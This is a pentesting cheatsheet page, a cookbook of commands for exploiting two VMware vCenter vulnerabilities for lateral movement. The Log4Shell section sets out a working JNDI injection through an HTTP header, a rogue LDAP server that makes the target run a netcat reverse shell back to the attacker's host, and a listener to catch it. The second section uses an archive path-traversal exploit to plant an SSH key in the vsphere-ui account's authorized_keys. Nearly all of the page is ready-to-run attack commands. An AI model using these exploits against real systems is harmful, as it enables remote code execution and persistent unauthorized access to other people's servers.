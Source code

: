```yaml
---
layout: post
title: TA0008 Lateral Movement - T1210 Remote Services Exploits 2021 - Cookbook 
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-02-14
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* 1. [CVE-2021-44228 - VCenter](#CVE-2021-44228-VCenter)
* 2. [CVE-2021-21972 - VCenter](#CVE-2021-21972-VCenter)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

##  1. <a name='CVE-2021-44228-VCenter'></a>CVE-2021-44228 - VCenter

```
# install
git clone https://github.com/veracode-research/rogue-jndi.git
apt install default-jdk
apt install java-common
apt install java-package

# check if Vcenter version is vulnerable
curl -ski https://1.2.3.4/ui/login | grep Location

# tmux windows 0 splitting
Ctrl-b %
Ctrl-b ->
Ctrl-b "

## cmds to run consequently in tmux windows 1, 2 and 3 

# HOOK STEP 1: rogue CURL query that hook VCenter to make an LDAP query 
curl --insecure  -vv -H "X-Forwarded-For: \${jndi:ldap://1.1.1.1:1389/o=tomcat}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

# HOOK STEP 2: run a rogue LDAP server that hook VCenter, executing netcat back to us 
sudo java -jar target/RogueJndi-1.1.jar --command "nc -e /bin/bash 1.1.1.1 4242" --hostname "1.1.1.1"

# CHECK: 1/ the LDAP, and 2/ the netcat, hooks come back
sudo tcpdump -ni eth0 host 1.2.3.4

# tmux windows 1 splitting
Ctrl-b c
Ctrl-b %
Ctrl-b ->
Ctrl-b "

# REVERSE SHELL: 
nc -lvnp 4242
```

##  2. <a name='CVE-2021-21972-VCenter'></a>CVE-2021-21972 - VCenter
```
sudo python3 CVE-2021-21972.py -t 1.2.3.3 -f /root/.ssh/id_rsa.pub -p /home/vsphere-ui/.ssh/authorized_keys -o unix
git clone https://github.com/ptoomey3/evilarc.git
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar home/vsphere-ui/.ssh
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar home/vsphere-ui/.ssh/id_rsa.pub
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar /home/vsphere-ui/.ssh/id_rsa.pub
python evilarc.py -d 5 -p '/home/vsphere-ui/.ssh' -o unix -f linexpl.tar /home/vsphere-ui/.ssh/id_rsa.pub
cd ../CVE-2021-21972/
sudo python3 CVE-2021-21972.py -t 1.2.3.3
python3 CVE-2021-21972.py -t 1.2.3.3
python3 CVE-2021-21972.py -t 1.2.3.4
```